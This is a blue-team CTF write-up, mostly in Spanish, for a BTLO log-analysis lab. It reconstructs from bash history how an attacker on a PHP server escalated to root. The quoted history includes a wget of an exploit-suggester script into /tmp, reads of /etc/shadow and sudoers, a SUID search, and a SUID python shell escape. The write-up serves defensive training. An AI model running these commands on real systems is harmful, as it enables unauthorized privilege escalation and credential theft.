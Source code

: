 # Write-Up — Log Analysis: Privilege Escalation

**Platform:** BTLO  
**Lab:** Log Analysis / Privilege Escalation  
**Category:** CTF Like  
**Date:** 2025-10-01  
**Difficulty:** Easy
**OS:** Windows/Linux<br>
**Link:** https://blueteamlabs.online/home/challenge/log-analysis-privilege-escalation-65ffe8df12

---

## Scenario

A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?

---

## Bash History Analysis

Descargamos el archivo que nos proporcionan con el historial de comandos ejecutados en el servidor.
<figure><img src="./assets/images/descarga.png" alt=""><figcaption></figcaption></figure>
<figure><img src="./assets/images/unzip.png" alt=""><figcaption></figcaption></figure>
A través de ellos podemos reconstruir las acciones del atacante:

```bash
cat BTLO\ Log\ Analysis\ -\ Privilege\ Escalation/bash_history
```
```bash
nano index.php
touch test.php
rm test.php
cd ../
ls
ls -la
rmdir bck/
rm -rf bck/
cd html/
cd uploads/
ls -la
pwd
id
whoami
ls
cd /root
cd /
ls -la
cd /home
ls
cd /home/daniel/
ls -la
su root
find / -name perl*
find / -name python*
python
python -c 'import pty; pty.spawn("/bin/sh")'
find / -name gcc*
find / -name cc
echo os.system('/bin/bash')
cd /tmp
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
env
ps -aux
ps -ef | grep root
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
ls -aRl /etc/| awk '$1 ~ /^.*r.*/'
crontab -l
ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
cat /etc/resolv.conf
iptables -L
lsof -i
tcpdump
last
cat /etc/sudoers
sudo -l
ls -ahlR /root/
ls -ahlR /home/
cat ~/.bashrc
cat ~/.profile
cat ~/.ssh/authorized_keys
ls -aRl /etc/ | awk '$1 ~ /^.*w.*/' 2>/dev/null
/bin/bash -i
cat /etc/fstab
cat /etc/passwd
cat /etc/shadow
find / -type f -user root -perm -4000 2>/dev/null
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
rm /var/www/html/uploads/x.phtml
```

---

## Challenge Questions — Answers & Justification

### 1) What user (other than `root`) is present on the server?

El atacante accede al directorio /home/daniel/ . Esto nos revela la existencia de otro usuario en el sistema.

**Respuesta:** daniel

---

### 2) Which script did the attacker attempt to download?

Observamos el uso de wget para descargar un script.

**Respuesta:** linux-exploit-suggester.sh


---

### 3) Which packet analyzer did the attacker attempt to use?

En el historial aparece `tcpdump`, que es una herramienta para capturar paquetes de red.

**Respuesta:** tcpdump


---

### 4) Which file extension did the attacker use to bypass the upload filter?

El atacante elimina un archivo con extensión .phtml, lo que indica que fue usado para evadir el filtro de subida de archivos PHP.

**Respuesta:** .phtml


---

### 5) What misconfiguration in `python` was exploited to gain root?

```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Este comando intenta ejecutar una shell con como root usando el argumento -p, lo cual solo es posible si el binario de Python tiene el bit SUID activado. 
Esta información la he encontrado aquí: https://gtfobins.github.io/gtfobins/gdb/#suid

**Respuesta:** SUID
